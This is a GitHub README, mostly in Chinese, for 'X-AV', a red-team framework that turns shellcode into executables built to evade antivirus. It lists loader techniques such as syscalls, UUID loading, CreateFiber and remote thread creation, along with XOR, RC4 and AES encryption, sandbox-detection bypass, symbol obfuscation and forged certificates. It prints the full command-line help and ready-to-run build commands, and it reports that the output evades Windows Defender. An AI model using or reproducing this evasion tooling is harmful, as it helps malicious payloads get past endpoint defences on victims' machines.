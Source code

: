 # X-AV
X系列安全工具-AV免杀框架-BypassAV
源码在知识星球RedTeaming
Web版

![](https://redteamwing.oss-cn-hongkong.aliyuncs.com/20210518145602.png)

## 加载方式
- Syscall
- Uuid
- CreateFiber
- CreateProcessWithPipe
- EtwpCreateEtwThread
- 等

## 加密方式
- XOR
- RC4
- AES256

## 沙盒检测,动态防御

## 符号表混淆,静态分析防御


## 权限维持
权限维持功能目前还没有加入
## 生成伪造证书
有点多余,可选项。
## 使用方法

```
❯ ./X-AV -h

 ____  _          _ _  ____          _     _____           _
/ ___|| |__   ___| | |/ ___|___   __| | __|_   _|__   ___ | |___
\___ \| '_ \ / _ \ | | |   / _ \ / _` |/ _ \| |/ _ \ / _ \| / __|
___) | | | |  __/ | | |__| (_) | (_| |  __/| | (_) | (_) | \__ \
|____/|_| |_|\___|_|_|\____\___/ \__,_|\___||_|\___/ \___/|_|___/

Version 1.0-RedTeamWing
						Loader Method:
						CreateFiber
						Syscall
						CreateProcess
						CreateProcessWithPipe
						CreateRemoteTread
						CreateRemoteTreadNative
						CreateThread
						CreateThreadNative
						UUIDFromString
						RtlCreateUserThread
						EtwpCreateEtwThread

						Encryption Method:
						Xor
						AES256
						RC4

Usage of ./X-AV:
  -domain string
    	fake domain
  -encrypt string
    	chose encryption (default "hex")
  -key string
    	encryption key (default "1314")
  -loadermethod string
    	选择shellcode加载方式 (default "CREATEFIBER")
  -o string
    	output path (default "boomsec.exe")
  -password string
    	fake domain cert password (default "201314")
  -persistence
    	Persistence[True or False]
  -salt string
    	aes 加密的salt
  -sandbox
    	Bypass Sandbox Check (default true)
  -shellcodepath string
    	shellcode path (default "shellcode.bin")
  -v	display detail infomation
  ```
  
 ### XOR加密
  每种加密都支持前面五种加载方法
```
./X-AV -shellcodepath cdn.bin -o xor.exe -key wing -encrypt xor  -loadermethod uuid
```
![](https://i.loli.net/2021/05/14/2HfmgtLoRdKiWkG.png)
 ### AES加密
 aes需要加salt
```
./X-AV -shellcodepath cdn.bin -o aes.exe -key wing -encrypt aes  -loadermethod uuid -salt wing
```
### RC4
```
./X-AV -shellcodepath cdn.bin -o rc4.exe -key wing -encrypt rc4  -loadermethod uuid
```

## 测试结果
对象：WindowsDefender
基本测试这个AV就行了
![](https://i.loli.net/2021/05/14/Q8RvafxMIFKGXWU.png)

![image](https://user-images.githubusercontent.com/25416365/118236750-0ded1700-b4c9-11eb-8e63-1b92b6f668b5.png)


